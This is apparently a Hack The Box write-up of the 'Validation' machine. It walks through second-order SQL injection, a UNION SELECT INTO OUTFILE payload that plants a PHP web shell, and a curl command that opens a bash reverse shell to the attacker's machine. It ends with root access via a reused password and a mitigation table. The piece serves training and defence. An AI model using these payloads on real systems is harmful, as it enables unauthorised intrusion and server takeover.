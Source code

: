 ```yaml
--- 
title: "Hack the Box (HTB) - Validation"
description: "Exploiting Second-Order SQL Injection"
date: 2024-07-13 12:00:00 -100
image: /assets/images/HTB - Validation Pics/Validation_Thumbnail.png
categories: [CTF]
tags: [sql injection, privilege escalation, password reuse]    # TAG names should always be lowercase
---
```


## Enumeration

We'll start with an [autorecon](https://github.com/Tib3rius/AutoRecon) scan against our target machine

```bash
sudo autorecon <ip>
```

Looking at the results, we see the following ports open

- 22 (SSH)
- 80 (HTTP)
- 4566 (HTTP)
- 8080 (HTTP)
- Various filtered ports

![Nmap Scan](/assets/images/HTB%20-%20Validation%20Pics/Nmap%20scan_validated.png)

We'll start with the low hanging fruit of this scan and check out the apache web server hosted on port 80. It appears to be a docker container as SSH identifies as `Ubuntu` and the web server identified as `Debian`

![Web page](/assets/images/HTB%20-%20Validation%20Pics/Web%20page.png)

Let's type in our user and check the request in burp

![Burp](/assets/images/HTB%20-%20Validation%20Pics/inital_burp.png)

let's toss this over to repeater with `CTRL + R` and examine the request & responses

The first thing we notice is the static `cookie` that we get when sending the request

The length of the cookie is 32 characters and is a `MD5` of our username. MD5 is obviously deprecated and would be a finding on a real vulnerability assessment but for our purposes in this CTF we will move forward

Let's try a simple SQL injection on the country parameter since we couldn't manually edit that in the GUI

```bash
username=Jigsaw64&country=Anguilla' 
```

Copying the cookie and editing it into our cookie user field We see the following error:

 `Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in
/var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php
on line 33`

![Fatal error](/assets/images/HTB%20-%20Validation%20Pics/Fatal%20error.png)

Our single quote `'` seems to have broken the SQL query and gave us an error.

Let's try commenting out the rest of the statement with `-- -`

The error went away once we commented out the rest of the query. This confirms that we have SQLi

Let's enumerate the number of columns by adding a simple union select statement 

```SQL
username=Jigsaw94&country=Brazil' union select  1-- -
```

![No SQL error](/assets/images/HTB%20-%20Validation%20Pics/No%20SQL%20error.png)

No error, which confirms that we only have on column

With this we can now use the union select to insert a php shell 

```PHP / SQL
Brazil' UNION SELECT '<?php system($_REQUEST["cmd"]); ?>' INTO OUTFILE '/var/www/html/pwned.php'-- -
```

- `system()` PHP function used to execute shell commands
- `$_REQUEST["cmd"]` PHP superglobal variable that grabs the value of cmd parameter from the HTTP request
- `INTO OUTFILE` writes the query to a file
-  `-- -` comment out the remaining SQL

Our SQL statement will take the value of our HTTP request and write it to `pwned.php`

After submitting the payload, we will need to visit `/account.php`. Our payload won't trigger until we load that, which makes this a [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)

![Pwned PHP Uploaded](/assets/images/HTB%20-%20Validation%20Pics/Pwned%20php.png)

We see another error but this is due to the fact that our query did not return any columns or rows. We should be able to navigate to `pwned.php` and verify that our injection worked

![CMD1](/assets/images/HTB%20-%20Validation%20Pics/CMD1.png)

It looks like it works. The error is only due to the fact that we did not supply a command

![CMD2](/assets/images/HTB%20-%20Validation%20Pics/CMD2.png)

With this confirmation of RCE. Let's curl a shell request. We'll set up our `nc` listener and enter the following curl command

```bash
curl -X POST http://10.10.11.116/pwned.php --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/<YOURIP>/PORT 0>&1"'
```
![Shell Obtained](/assets/images/HTB%20-%20Validation%20Pics/Shell%20Obtained.png)

We have our shell. Since python is not installed on t his container I am going to use the following to upgrade to a pty

```bash
script -q /dev/null
```

![Upgraded shell](/assets/images/HTB%20-%20Validation%20Pics/Upgraded%20shell.png)

We immediately notice a `config.php` file. This is gold, let's take a look

![Config.php](/assets/images/HTB%20-%20Validation%20Pics/password.png)

We see a password `uhc-9qual-global-pw` here, let's try switching to root with this

![Root](/assets/images/HTB%20-%20Validation%20Pics/Root.png)

GG, we've obtained root on this box



## Vulnerabilities & Mitigation Summary

| Vulnerability     | Mitigation            |
|-------------------|-----------------------|
| Static Cookies Assigned by Username  | Use secure, ephemeral, randomly generated session identifiers |
| Use of Deprecated Hash (MD5) | Use a stronger hash function like SHA-256 or bcrypt|
| SQL Injection     | Validate and sanitize user input. Use prepared statements|
| Password Reuse | Don't reuse passwords!

### Remediation References

- [OWASP Secure Cookie Practices](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html#secure-cookies)
- [Second-Order SQL Injection](https://portswigger.net/kb/issues/00100210_sql-injection-second-order)
